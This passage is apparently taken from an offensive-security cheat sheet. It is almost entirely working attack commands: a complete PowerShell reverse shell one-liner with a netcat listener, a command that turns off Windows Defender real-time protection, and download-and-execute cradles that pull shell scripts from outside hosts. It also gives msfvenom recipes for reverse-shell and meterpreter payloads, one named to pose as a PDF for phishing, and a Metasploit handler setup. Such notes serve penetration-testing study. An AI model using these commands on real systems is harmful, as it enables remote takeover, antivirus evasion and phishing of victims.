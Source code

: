 ```shell
# Kali
sudo nc -lvnp 443
# target
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.7',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Disable AV if needed
Set-MpPreference -DisableRealtimeMonitoring $true

#Nishang
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29/shell.ps1')

powershell IEX (IWR http://10.10.10.10/revshell.ps1 -UseBasicParsing)
```

#### MSFVenom

```shell
msfvenom -l payloads

# Stageless
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

# Staged
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.137 LPORT=443 -f exe -o shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.6 LPORT=443 -f psh -o meterpreter-64.ps1
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=443 -f aspx > reverse.aspx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war

msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

sudo msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set EXITFUNC thread
```

#### Python
